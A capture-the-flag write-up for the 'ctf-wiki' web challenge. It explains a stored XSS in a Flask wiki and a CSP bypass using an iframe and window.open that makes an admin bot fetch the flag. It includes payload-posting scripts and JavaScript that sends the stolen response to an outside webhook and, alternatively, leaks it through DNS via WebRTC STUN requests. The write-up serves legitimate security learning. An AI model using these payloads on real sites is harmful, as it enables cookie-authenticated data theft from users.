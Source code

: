 # **ctf-wiki | 38 solves**
I am such a huge fan of CTF players that I decided to create a wiki with some of my favorites! Hopefully, none of them hack it. ;D

[ctf-wiki.chall.lac.tf](ctf-wiki.chall.lac.tf)

## **Description**
We are given a url, an Admin bot link, and the source code for the main page. The website is a Flask application that lets you add a decription of a CTF player. Once we fill in the fields, we get back a note created with a specific UUID that can later be referenced.
![create endpoint](image.png)


Looking at the source code, we see two main endpoints: `/edit`, and `/view`. However if when we are logged in, and we try to visit `/view`, we are instantly redirected to `/edit`. We can see this implemented in the source:

```py
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
```

Which explicitly redirects us to the `edit` endpoint. 

Looking around the source code more, we can see where the flag is stored.
```py
@app.post("/flag")
def flag():
    adminpw = os.environ.get("ADMINPW") or "admin"
    if session.get("password") != adminpw:
        return redirect("/login?error=" + urllib.parse.quote_plus("Not the admin."))

    flag = os.environ.get("FLAG") or "lactf{test-flag}"
    return flag, 200
```

For this, we need to make a post request to `/flag`, with an account using the correct admin password. Since we have an Admin Bot for this challenge as well, its clear now that we need some sort of XSS to make the admin request this flag for us, and then we can exfiltrate it to a server we control.

And looking at the template for `view.html`, we can see exactly where this XSS is:
```html
<div class="ctfer-info">{{ description | safe }}</div>
```

Which in Jinja2 templates will not sanitize the input placed there, meaning we can put arbitrary HTML and JS in the description. 
Finally, we can see a CSP is enforced on the pages with a valid session.

```py
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response

```
The `default-src=self` will be a fallback for CSP directives that were not specified in this list, so when exfiltrating we will additionally need to take this into consideration.

## **Solution**
The base idea of the challenge will utilize the fact that if the ctf-wiki page is embedded in an iframe on an attacker controlled page, that frame will not send session cookies. Meaning if we can get the Admin to visit our page, and embed the `/view` endpoint, it will not send the admin session. However, that iframe can create a window using `window.open`, and the window it creates will send the cookies! Additionally since these are the same origin, the payload in `/view` will be able to access the window object of the cookie page, and therefore execute JS!

Now from here we can make the fetch request, but we need to somehow send this to our domain. 

### XSS on window with cookies
To get a simple POC, we can first create a note that creates a new window, then executes some JS inside that window. I also created this helper script to change the payload on my page quickly.

```py
import requests
from base64 import b64encode

cookies = {
    'session': 'eyJwYXNzd29yZCI6IjEyMzQiLCJ1c2VybmFtZSI6ImFoaCJ9.ZdLx0w.E2vT2k0HzBa_iXbhdqHgGiR-oxg',
}

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.alert(1);
""".strip()

data = {
    'id': 'd74c05271ee7f058e376451a59086650',
    'name': 'asdf',
    'image': 'asdf',
    'team': 'asdf',
    'specialty': 'asdf',
    'website': 'asdf',
    'description': f'<img src=x onerror="eval(atob(\'{b64encode(payload.encode()).decode()}\'))">',
}

response = requests.post(
    'https://ctf-wiki.chall.lac.tf/edit/d74c05271ee7f058e376451a59086650',
    cookies=cookies,
    data=data,
)
```

Then we can host the `/view` endpoint for this page on our own domain in an iframe.
```html
<iframe id="thing" src="https://ctf-wiki.chall.lac.tf/view/d74c05271ee7f058e376451a59086650"></iframe>
```

When we visit our site now when logged in on ctf-wiki, (after enabling popups) we can see a page opened and an alert fired.
![Alert](image-1.png)
Whats important is that the alert is on the new page, and additionally, we can see that the new page will be logged in.
![logged in](image-3.png)

Now we can try adjusting our payload to make a fetch to `/flag`, and send it to a webhook.
```js
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.onload = () => {
    w.fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        fetch("https://eo4r52sc1021bl8.m.pipedream.net?flag=" + btoa(r));
    });
}
```

Note here we are using `w.fetch` to fetch the `/flag` endpoint, but just fetch to send it back to us. This is since the CSP will prevent using `w.fetch` to make a request outside the `https://ctf-wiki.chall.lac.tf/` origin, however the cookieless page does not have that CSP restriction.

Finally, we send this to the Admin Bot, get our callback, and base64 decode to get the flag!
![alt text](image-4.png)

---
## **Flag**: `lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}`


## Additional Note: 
During the CTF, I honestly don't know why I didn't try this. I think I accidently tried `w.fetch` when exfiltrating (instead of just fetch), got the `connect-uri` CSP issue, and then just resorted to the option I knew on how to solve that which was using WebRTC. 

A reference for that payload is this very well written writeup for SekaiCTF GolfJail which used that same technique.
[https://blog.antoniusblock.net/posts/golfjail/](https://blog.antoniusblock.net/posts/golfjail/)

You can send the same request, but modifying the data to the request response, and collect the response in the DNS query.
This is the payload script I used during the CTF.
```py
innerpayload = """
window.onload = () => {
    fetch('https://ctf-wiki.chall.lac.tf/flag', {method: "POST"}).then(r => r.text()).then(r => {
        pc=new RTCPeerConnection({"iceServers":[{"urls":["stun:"+r.split("").map(x=>x.charCodeAt(0).toString(16)).join("").substr(0, 62)+"."+"zlamrbukykhbdngfjbuh29ofd2v5k39qo.oast.fun"]}]});
        pc.createOffer({offerToReceiveAudio:1}).then(o=>pc.setLocalDescription(o));
    })
}
""".strip()

payload = f"""
w = window.open("https://ctf-wiki.chall.lac.tf/");
w.eval(atob('{b64encode(innerpayload.encode()).decode()}'))
""".strip()
```

And you will get a response like this, which afterwards you can hex decode the subdomain to determine the flag!
![](image-5.png)

But yeah there fetch from the cookieless CSPless page is alot more straightforward lol. In the words of the author himself:
![alt text](image-6.png)
